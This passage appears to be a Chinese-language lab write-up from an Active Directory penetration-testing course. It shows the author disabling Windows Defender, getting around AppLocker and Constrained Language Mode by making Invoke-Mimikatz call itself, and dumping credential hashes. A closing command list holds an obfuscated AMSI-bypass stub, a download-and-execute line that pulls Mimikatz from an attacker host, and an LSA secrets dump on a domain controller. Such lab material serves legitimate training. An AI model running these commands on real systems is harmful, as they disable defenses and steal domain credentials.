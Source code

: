 Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        7/16/2016   6:18 AM                Common Files
d-----        7/16/2016   6:18 AM                internet explorer
d-----        8/20/2020   3:48 AM                Windows Defender
d-----        7/16/2016   6:18 AM                WindowsPowerShell
-a----        5/18/2021   6:59 PM        2530060 Invoke-Mimikatz.ps1
```

然而还是不能引入Mimikatz，会报错
```
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Program Files> . .\Invoke-Mimikatz.ps1
C:\Program Files\Invoke-Mimikatz.ps1 : Cannot dot-source this command because it was defined in a different language mode. To invoke this command without importing its contents, omit the '.' operator.
At line:1 char:1
+ . .\Invoke-Mimikatz.ps1
+ ~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : InvalidOperation: (:) [Invoke-Mimikatz.ps1], NotSupportedException
    + FullyQualifiedErrorId : DotSourceNotSupported,Invoke-Mimikatz.ps1
```

这里是因为开启了Constrained Language Mode，CLM，就算能把脚本拷贝到靶机，我们也不能执行。

在dcorp-adminsrv关闭Windows Defender
```
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Program Files> Set-MpPreference -DisableRealtimeMonitoring $true -Verbose
VERBOSE: Performing operation 'Update MSFT_MpPreference' on Target 'ProtectionManagement'.
```

## script调用自己

方法：
1. 复制一份Invoke-Mimikatz.ps1，取名为：Invoke-Mimikatz2.ps1
2. 在Invoke-Mimikatz2.ps1文件的最底部，加一行命令：Invoke-Mimikatz  #其实就是调用自己


把修改好的脚本拷贝到dcorp-adminsrv，注意根据上面的Applocker策略，只可以放在Program Files文件夹
```
Copy-Item .\Invoke-Mimikatz2.ps1 \\dcorp-adminsrv.dollarcorp.moneycorp.local\c$\'Program Files'
```

回到dcorp-adminsrv，不要把Invoke-Mimikatz2.ps1引入内存，而是直接执行，因为上面在拷贝那里加了一行Invoke-Mimikatz，所以会导出所有哈希

```
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Program Files> .\Invoke-Mimikatz2.ps1

  .#####.   mimikatz 2.1.1 (x64) built on Nov 29 2018 12:37:56
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo) ** Kitten Edition **
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/


[dcorp-adminsrv]: PS C:\Users\student366\Documents> S`eT-It`em ( 'V'+'aR' + 'IA' + ('blE:1'+'q2') + ('uZ'+'x') ) ([TYpE]
[dcorp-adminsrv]: PS C:\Users\student366\Documents> Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollecti
[dcorp-mgmt.dollarcorp.moneycorp.local]: PS C:\Users\ciadmin\Documents> powershell -ep bypass
[dcorp-mgmt.dollarcorp.moneycorp.local]: PS C:\Users\ciadmin\Documents> S`eT-It`em ( 'V'+'aR' + 'IA' + ('blE:1'+'q2') +
[dcorp-mgmt.dollarcorp.moneycorp.local]: PS C:\Users\ciadmin\Documents> iex (iwr http://172.16.100.66/Invoke-Mimikatz.ps1 -UseBasicParsing)
[dcorp-mgmt.dollarcorp.moneycorp.local]: PS C:\Users\ciadmin\Documents> Invoke-Mimikatz
[dcorp-dc.dollarcorp.moneycorp.local]: PS C:\Users\svcadmin\Documents> iex (iwr http://172.16.100.66/Invoke-Mimikatz.ps1
[dcorp-dc.dollarcorp.moneycorp.local]: PS C:\Users\svcadmin\Documents>  Invoke-Mimikatz -Command '"lsadump::lsa /patch"'